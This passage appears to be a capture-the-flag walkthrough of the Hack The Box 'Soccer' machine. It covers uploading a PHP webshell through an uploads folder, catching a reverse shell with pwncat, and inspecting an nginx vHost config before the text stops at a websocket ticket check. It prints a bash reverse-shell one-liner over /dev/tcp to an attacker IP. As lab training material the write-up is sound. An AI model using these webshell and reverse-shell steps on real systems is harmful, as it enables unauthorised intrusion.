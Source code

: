 ## Webshell

Go to folder tiny -> uploads and upload a php webshell of your choice.

## Reverse Shell

I used [wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php) as php webshell and got a reverse shell using a plain old well known payload

```bash
# Shell Handling
pwncat-cs -lp 4000

# Payload
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.75/4000 0>&1"
```

## Enumeration

While checking the system we doesn't seem to have any interesting privileges nor can we escalate directly to any user.  

Once we look into the webserver configuration we identify a new vHost called **soc-player.soccer.htb**  
```bash
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```


## soc-player.soccer.htb

First we will register an account on that page. After signing in using our credentials we will be redirected to [http://soc-player.soccer.htb/check](http://soc-player.soccer.htb/check).  

Once we are on the **/check** page we'll inspect the development console of our browser which will tell us that a websocket is used to check our **ticket**
